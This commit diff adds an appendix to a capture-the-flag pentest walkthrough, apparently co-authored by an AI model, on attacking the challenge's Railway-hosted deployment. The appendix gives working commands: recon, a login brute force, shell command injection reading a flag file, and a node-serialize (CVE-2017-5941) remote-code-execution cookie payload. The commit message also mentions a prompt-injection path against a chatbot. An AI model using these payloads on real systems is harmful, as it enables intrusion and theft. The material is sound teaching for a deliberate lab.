

Before and after one commit to todorslavovv/three-paths-ctf, a LaTeX document (docs/PENTEST_WALKTHROUGH.tex): part of page 13 of 16 before the commit and two parts of pages 13 and 14 of 18 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Audit: verify all paths against live Railway; add Railway attack appendix
Full audit of the deployed CTF. Verified live against the Railway deployment
that every route returns the flag over HTTPS:
- Path 1: brute force -> maintenance console -> internal-service command
  injection (internal port correctly shifted to 127.0.0.1:8079) -> flag in HTTP
  response
- Path 2: node-serialize (CVE-2017-5941) pre-auth RCE -> copy flag into public/
  -> GET -> flag
- Path 3: VaultBot targeted prompt injection -> flag
- Bonus SQLi: UNION on secrets -> flag
Recon (robots, /api/status node-serialize 0.0.4, IDOR /api/users/4) and login
user-enumeration all confirmed.

Docs updated for the hosted scenario:
- Walkthrough: new "Attacking the Railway Deployment" appendix with the exact
  HTTPS commands, the 8079 port shift, and output-returning variants (reverse
  shells don't work against a managed container). PDF recompiled (18 pages).
- Author notes: Railway-hosted specifics + artifact cleanup guidance.

No functional bugs found; tests still green (smoke 31/31, exploits 2/2).

Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

```diff
--- a/docs/PENTEST_WALKTHROUGH.tex
+++ b/docs/PENTEST_WALKTHROUGH.tex
@@ -574,3 +574,59 @@
 additional defences.
 
 % =====================================================================
+\section{Appendix: Attacking the Railway Deployment}
+When VaultGate is hosted on Railway, the target sits behind Railway's HTTPS edge
+proxy. This changes reconnaissance and the shape of some exploits. Everything
+below was verified against a live Railway deployment. Replace \texttt{<URL>} with
+your app URL, e.g. \texttt{https://your-app.up.railway.app}.
+
+\subsection{What is different on Railway}
+\begin{itemize}[leftmargin=1.4cm]
+  \item \textbf{No raw ports.} \texttt{nmap} against the hostname scans Railway's
+  edge (443/HTTPS), \emph{not} your container. All work is at the web layer over
+  HTTPS. There is no port in the URL -- it is 443.
+  \item \textbf{The internal diagnostics port shifts to 8079.} Railway sets
+  \texttt{PORT=8080}, which collides with the service's default, so it moves to
+  \texttt{8079}. Do not hardcode 8080 -- read the real port from \texttt{ss -lntp}
+  in the console.
+  \item \textbf{Reverse shells will not connect back} to your Kali box: a managed
+  container cannot route to your LAN listener. Use the \emph{output-returning}
+  exploit variants below instead -- the flag is fully retrievable that way.
+\end{itemize}
+
+\subsection{Recon (HTTPS)}
+\begin{lstlisting}[style=bash]
+curl -sSI <URL>/                      # headers: server, x-powered-by, x-railway-edge
+curl -s   <URL>/robots.txt            # Disallow: /admin /api /internal /terminal
+curl -s   <URL>/api/status            # leaks node-serialize 0.0.4 (Path 2)
+curl -s   <URL>/api/users/4           # IDOR: administrator (Path 1)
+ffuf -u <URL>/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200,301,302,401,403
+\end{lstlisting}
+
+\subsection{Path 1 over HTTPS: brute force -> console -> command injection}
+\begin{lstlisting}[style=bash]
+# 1) User enumeration then brute force the password parameter
+ffuf -w ctf-wordlist.txt -X POST \
+     -H 'Content-Type: application/x-www-form-urlencoded' \
+     -d 'username=administrator&password=FUZZ' \
+     -u <URL>/login -fr 'Incorrect password'
+
+# 2) Log in, keep the session cookie
+curl -s -c jar -X POST <URL>/login -d 'username=administrator&password=winter2024'
+
+# 3) Pivot: the maintenance console runs commands server-side and returns output
+curl -s -b jar <URL>/api/terminal -H 'Content-Type: application/json' \
+     -d '{"command":"ss -lntp"}'          # note 127.0.0.1:8079
+
+# 4) Command injection in the loopback diagnostics service -> flag in the response
+curl -s -b jar <URL>/api/terminal -H 'Content-Type: application/json' \
+     --data-raw '{"command":"curl \"http://127.0.0.1:8079/api/diag?host=127.0.0.1;cat /opt/vaultgate/secrets/flag.txt\""}'
+\end{lstlisting}
+
+\subsection{Path 2 over HTTPS: node-serialize RCE (file-write exfil)}
+No reverse shell needed -- have the payload copy the flag into the served
+\texttt{public/} directory, then fetch it:
+\begin{lstlisting}[style=bash]
+# Build the CVE-2017-5941 cookie (pre-auth). The IIFE copies the flag to public/.
+COOKIE=$(node -e "const p='{\"rce\":\"_\$\$ND_FUNC\$\$_function(){require(\'child_process\').execSync(\'cp /opt/vaultgate/secrets/flag.txt /opt/vaultgate/app/public/p.txt\')}()\"}';process.stdout.write(Buffer.from(p).toString('base64'))")
+curl -s -o /dev/null -H "Cookie: vg_prefs=$COOKIE" <URL>/   # triggers RCE
```
Also changed, not shown: CHALLENGE_AUTHOR_NOTES.md (+18 -0 lines), docs/PENTEST_WALKTHROUGH.pdf, docs/PENTEST_WALKTHROUGH.tex (20 more changed lines).
